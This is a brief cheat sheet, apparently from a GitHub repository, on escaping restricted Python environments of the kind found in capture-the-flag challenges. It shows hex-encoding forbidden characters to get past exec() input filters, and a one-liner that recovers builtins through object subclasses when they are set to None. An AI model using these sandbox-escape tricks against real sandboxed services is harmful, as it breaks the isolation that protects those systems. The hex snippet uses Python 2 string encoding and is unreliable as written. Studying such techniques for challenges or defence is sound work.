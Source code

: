 # File template
```python
#!/usr/bin/env python3

def main():
    # CODE

if __name__ == '__main__':
    main()
```

# Characters not allowed
Python commands can be run in hex form:
```python
string = 'command to be executed'
chars_not_allowed = '[]{}.1'
encoded = ['\\x' + x.encode('hex') for x in chars_not_allowed]
for i in range(len(encoded)):
    string = string.replace(chars_not_allowed[i], encoded[i])
exec(string)
```
Note: The transitions back only happen when the hex is in a string! You might want to escape `'` and `"` in the string!

Note: Try adding more `\\`'s if it doesn't work (`\\`, `\\\\`, `\\\\\\\\`)

# Recovering builtins
Whenever you're in a situation where `{'__builtins__': None}`, the builtins can be recovered.

`s = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['FUNCTIONNAME'](ARGUMENTS)"; exec(s, {'builtins': None})`

[More info](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html)
